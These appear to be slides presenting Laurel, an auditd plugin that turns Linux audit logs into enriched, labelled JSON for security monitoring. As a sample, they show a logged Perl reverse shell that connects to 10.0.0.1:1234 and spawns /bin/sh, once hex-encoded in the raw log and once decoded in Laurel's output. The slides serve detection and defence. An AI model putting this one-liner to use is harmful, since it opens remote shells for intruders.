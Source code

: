 \"Linux Audit -- Usable, Robust, Easy Logging\"

-   *auditd* plugin: Parse audit log, write JSON
-   Enrichment, process tracking and labelling
-   Filtering capabilities
-   <https://github.com/threathunters-io/laurel>, GPLv3

# Linux Audit Subsystem, LOL

``` shell
type=SYSCALL msg=audit(1626611363.720:348501): …
type=EXECVE msg=audit(1626611363.720:348501): argc=3 a0="perl"
  a1="-e" a2=75736520536F636B65743B24693D2231302E302E302E31223B24
  703D313233343B736F636B657428532C50465F494E45542C534F434B5F53545
  245414D2C67657470726F746F62796E616D6528227463702229293B69662863
  6F6E6E65637428532C736F636B616464725F696E2824702C696E65745F61746
  F6E282469292929297B6F70656E28535444494E2C223E265322293B6F70656E
  285354444F55542C223E265322293B6F70656E285354444552522C223E26532
  2293B6578656328222F62696E2F7368202D6922293B7D3B
type=CWD msg=audit(1626611363.720:348501): …
```

- Parsing is hard for SIEM software
- Few filtering options

# A little post-processing done by Laurel

``` json
{ "ID":"1626611363.720:348501",
  "SYSCALL": { … "PPID": {"EVENT_ID": "1626607554.859:32454",
    "comm": "sh","exe":"/bin/sh"},"LABELS":["weblogic"], … },
  "EXECVE":{ "argc": 3,
    "ARGV": ["perl", "-e",
      "use Socket;$i=\"10.0.0.1\";$p=1234;socket(S,PF_INET,SOCK_STREAM,
      getprotobyname(\"tcp\"));if(connect(S,sockaddr_in($p,inet_aton($i)))){
      open(STDIN,\">&S\");open(STDOUT,\">&S\");open(STDERR,\">&S\");
      exec(\"/bin/sh -i\");};"]},
   … }
```


# auditd + Laurel setup
